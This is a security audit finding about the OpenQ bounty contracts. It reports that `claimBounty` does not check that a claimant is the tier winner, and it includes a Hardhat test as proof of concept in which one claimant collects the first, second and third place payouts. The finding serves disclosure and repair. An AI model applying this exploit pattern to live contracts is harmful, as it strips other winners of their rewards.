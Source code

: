psy4n0n

high

# A claimant can call claimBounty for all the tiers.

## Summary

There are no checks in `claimBounty` or `_claimTieredPercentageBounty` and `_claimTieredFixedBounty` similar to checks in `permissionedClaimTieredBounty` if the closer is actually the tier winner.

## Vulnerability Detail

In `permissionedClaimTieredBounty` there are checks which first get the `closer` from `msg.sender` then check if the closer is actually the tierwinner in the code below:

```solidity
string memory closer = IOpenQ(openQ).addressToExternalUserId(
            msg.sender
        );

        require(
            keccak256(abi.encodePacked(closer)) !=
                keccak256(abi.encodePacked('')),
            Errors.NO_ASSOCIATED_ADDRESS
        );

        require(
            keccak256(abi.encode(closer)) ==
                keccak256(abi.encode(bounty.tierWinners(_tier))),
            Errors.CLAIMANT_NOT_TIER_WINNER
        );
```

But there are no such checks in `claimBounty`. This may lead to a claimant , claiming bounty of other tiers. 

**There is no check if the closer is actually the bounty tier winner**

POC: (I modified the TIERED , TRANSFER test case to the following)

```solidity
describe('TRANSFER', () => {
				it('should transfer all assets from bounty contract to claimant', async () => {
					// ARRANGE
					const volume = 1000;
					await openQProxy.mintBounty(Constants.bountyId, Constants.organization, tieredPercentageBountyInitOperation_permissionless);

					const bountyAddress = await openQProxy.bountyIdToAddress(Constants.bountyId);

					await mockLink.approve(bountyAddress, 10000000);
					await mockDai.approve(bountyAddress, 10000000);

					await depositManager.fundBountyToken(bountyAddress, mockLink.address, volume, 1, Constants.funderUuid);
					await depositManager.fundBountyToken(bountyAddress, mockDai.address, volume, 1, Constants.funderUuid);
					await depositManager.fundBountyToken(bountyAddress, ethers.constants.AddressZero, volume, 1, Constants.funderUuid, { value: volume });

					// ASSUME
					const bountyMockLinkTokenBalance = (await mockLink.balanceOf(bountyAddress)).toString();
					const bountyDaiTokenBalance = (await mockDai.balanceOf(bountyAddress)).toString();
					const bountyProtcolTokenBalance = (await ethers.provider.getBalance(bountyAddress)).toString();
					expect(bountyMockLinkTokenBalance).to.equal('1000');
					expect(bountyDaiTokenBalance).to.equal('1000');
					expect(bountyProtcolTokenBalance).to.equal('1000');

					const claimantMockTokenBalance = (await mockLink.balanceOf(claimant.address)).toString();
					const claimantFakeTokenBalance = (await mockDai.balanceOf(claimant.address)).toString();
					const claimantProtocolTokenBalance = (await ethers.provider.getBalance(claimant.address)).toString();
					expect(claimantMockTokenBalance).to.equal('0');
					expect(claimantFakeTokenBalance).to.equal('0');

					// ACT
					await claimManager.connect(oracle).claimBounty(bountyAddress, claimant.address, abiEncodedTieredCloserDataFirstPlace);
					await claimManager.connect(oracle).claimBounty(bountyAddress, claimant.address, abiEncodedTieredCloserDataSecondPlace);
					await claimManager.connect(oracle).claimBounty(bountyAddress, claimant.address, abiEncodedTieredCloserDataThirdPlace);

					// ASSERT
					const newBountyMockTokenBalance = (await mockLink.balanceOf(bountyAddress)).toString();
					const newBountyFakeTokenBalance = (await mockDai.balanceOf(bountyAddress)).toString();
					const newBountyProtocolTokenBalance = (await ethers.provider.getBalance(bountyAddress)).toString();
					expect(newBountyMockTokenBalance).to.equal('0');
					expect(newBountyFakeTokenBalance).to.equal('0');
					expect(newBountyProtocolTokenBalance).to.equal('0');

					const newClaimerMockTokenBalance = (await mockLink.balanceOf(claimant.address)).toString();
					const newClaimerFakeTokenBalance = (await mockDai.balanceOf(claimant.address)).toString();
					const newClaimerProtocolTokenBalance = (await ethers.provider.getBalance(claimant.address)).toString();
					expect(newClaimerMockTokenBalance).to.equal('1000');
					expect(newClaimerFakeTokenBalance).to.equal('1000');
}
```

The above code shows the claimint is claiming bounty of all tiers.

## Impact

A claimant would be able to claim the bounty for all tiers and other winners will loose their rewards.

## Code Snippet

[`ClaimManagerV1.sol:ClaimBounty`
](https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/ClaimManager/Implementations/ClaimManagerV1.sol#L31)

```solidity
} else if (_bountyType == OpenQDefinitions.ONGOING) {
            _claimOngoingBounty(bounty, _closer, _closerData);
        } else if (_bountyType == OpenQDefinitions.TIERED_PERCENTAGE) {
            _claimTieredPercentageBounty(bounty, _closer, _closerData); //@audit A user can claim for all tiers.
        } else if (_bountyType == OpenQDefinitions.TIERED_FIXED) {
            _claimTieredFixedBounty(bounty, _closer, _closerData);
        } else {
            revert(Errors.UNKNOWN_BOUNTY_TYPE);
        }
```

There are no checks in the above code.

## Tool used

Manual Review

## Recommendation

Add similar checks in ClaimBounty function.